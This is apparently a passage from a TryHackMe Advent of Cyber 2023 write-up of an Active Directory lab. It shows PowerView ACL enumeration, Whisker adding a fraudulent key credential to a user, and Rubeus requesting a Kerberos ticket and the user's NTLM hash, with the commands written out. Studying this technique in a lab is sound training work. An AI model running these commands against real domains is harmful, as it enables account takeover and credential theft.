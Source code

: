 ```powershell
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" }
```

![AD|600](images/thm-aoc-2023-day-9-12/ad-2.png)

Once we have a vulnerable user we can use `Whisper` to simulate the enrollment of a new device for the user. The enrollment will cause the value of the public key to be replaced with a fraudulent one. The tool also generates a certificate for us which is necessary for authenticating with Kerberos.

```powershell
.\Whisker.exe add /target:vansprinkles
```
 
![AD|640](images/thm-aoc-2023-day-9-12/ad-3.png)

The output of the tool contains the command that can be used with `Rubeus` for interacting with Kerberos and getting a TGT (Ticket Granting Ticket). The TGT is used as the session token to prevent repeatedly prompting the user for authentication. Along with the session token, we can also get the NTLM hash of the users' password.

**Note**: Add a `.\` before the tool name when copy-pasting the command that was generated by `Whisker`

```powershell
.\Rubeus.exe asktgt /user:vansprinkles /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEH... /password:"qfyNlIfCjVqzwh1e" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```
